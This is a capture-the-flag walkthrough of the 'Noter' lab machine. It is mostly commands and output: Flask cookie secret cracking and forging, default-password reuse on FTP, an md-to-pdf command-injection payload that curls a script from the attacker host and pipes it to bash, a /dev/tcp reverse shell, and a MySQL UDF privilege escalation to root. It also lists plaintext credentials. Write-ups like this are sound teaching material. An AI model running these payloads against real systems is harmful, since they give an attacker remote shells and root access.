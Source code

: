# Noter

---

## Enumeration

- nmap TCP scan:

```
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c653c62ae92890504d0c8d6488e0084d (RSA)
|   256 5f12585f497df36cbd9b2549ba09cc43 (ECDSA)
|_  256 f16b0016f788ab00ce96afa67eb5a839 (ED25519)
5000/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.8.10)
| http-methods: 
|_  Supported Methods: HEAD GET OPTIONS
|_http-title: Noter
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

- FTP server on port 21 requires authentication
- Flask session cookie identified, used `flask-unsign` to crack its secret

```bash
flask-unsign --unsign --cookie 'eyJsb2dnZWRfaW4iOnRydWUsInVzZXJuYW1lIjoidGVzdCJ9.Y5SUDg.JRbpoDh_8ajtiXhFZR6NohkYano'
[*] Session decodes to: {'logged_in': True, 'username': 'test'}
[*] No wordlist selected, falling back to default wordlist..
[*] Starting brute-forcer with 8 threads..
[*] Attempted (1792): -----BEGIN PRIVATE KEY-----93a
[+] Found secret key after 19968 attempts size tokenk
'secret123'
```

- Wrote a script to generate Flask session cookies with different usernames and hit `blue` 
- Found FTP creds on `blue`'s notes `blue:blue@Noter!`

```
Your username is 'blue' and the password is 'blue@Noter!'.
Make sure to remember them and delete this.  
```

- The pdf found on the FTP server using the user `blue` revealed the password policy of `Noter`
- The default password is `username@Noter!`
- In the notes section on the webapp, I found a user `ftp_admin`, so I tried with FTP with the password `ftp_admin@Noter!` and it worked.
- Got app backup zip files
- Read the source code and found [RCE vulnerability](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880): 

```python
# Export remote
@app.route('/export_note_remote', methods=['POST'])
@is_logged_in
def export_note_remote():
    if check_VIP(session['username']):
        try:
            url = request.form['url']

            status, error = parse_url(url)

            if (status is True) and (error is None):
                try:
                    r = pyrequest.get(url,allow_redirects=True)
                    rand_int = random.randint(1,10000)
                    command = f"node misc/md-to-pdf.js  $'{r.text.strip()}' {rand_int}"
                    subprocess.run(command, shell=True, executable="/bin/bash")

                    if os.path.isfile(attachment_dir + f'{str(rand_int)}.pdf'):

                        return send_file(attachment_dir + f'{str(rand_int)}.pdf', as_attachment=True)

                        <SNIP>
```

- payload:

```bash
cat game.md              
---js\n((require("child_process")).execSync("curl 10.10.16.4/imPWNED"))\n---RCE
```

- RCE:

```bash
10.10.11.160 - - [10/Dec/2022 10:28:01] "GET /game.md HTTP/1.1" 200 -
10.10.11.160 - - [10/Dec/2022 10:28:02] code 404, message File not found
10.10.11.160 - - [10/Dec/2022 10:28:02] "GET /imPWNED HTTP/1.1" 404 -
```

- To get revshell:

```bash
cat game.sh        
#!/bin/bash
bash -c "bash -i >& /dev/tcp/10.10.16.4/9000 0>&1"
------------------------------------------------------------------------------------------------------
cat game.md
---js\n((require("child_process")).execSync("curl 10.10.16.4/game.sh -o - | bash"))\n---RCE
------------------------------------------------------------------------------------------------------
10.10.11.160 - - [10/Dec/2022 10:31:06] "GET /game.md HTTP/1.1" 200 -
10.10.11.160 - - [10/Dec/2022 10:31:07] "GET /game.sh HTTP/1.1" 200 -
------------------------------------------------------------------------------------------------------
nc -lvnp 9000

listening on [any] 9000 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.11.160] 38942
bash: cannot set terminal process group (1264): Inappropriate ioctl for device
bash: no job control in this shell
svc@noter:~/app/web$ 
```

---

## PrivEsc

- On enumerating, found a process `mysqld` running as root, found [this article](https://redteamnation.com/mysql-user-defined-functions/)

```bash
svc@noter:/etc/mysql/mariadb.conf.d$ cat 50-server.cnf  | grep user
user                    = root
```

- With the previously found mysql creds, I used this exploit to privesc `root:Nildogg36`

```
create table foo(line blob);
insert into foo values(load_file('/tmp/raptor_udf2.so'));
show variables like '%plugin%';
select * from foo into dumpfile "/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so";
create function do_system returns integer soname 'raptor_udf2.so';
select do_system('curl 10.10.16.4/game.sh -o - | bash');
```

- rooted:

```bash
nc -lvnp 9000
listening on [any] 9000 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.11.160] 39434
bash: cannot set terminal process group (966): Inappropriate ioctl for device
bash: no job control in this shell
root@noter:/var/lib/mysql# 

```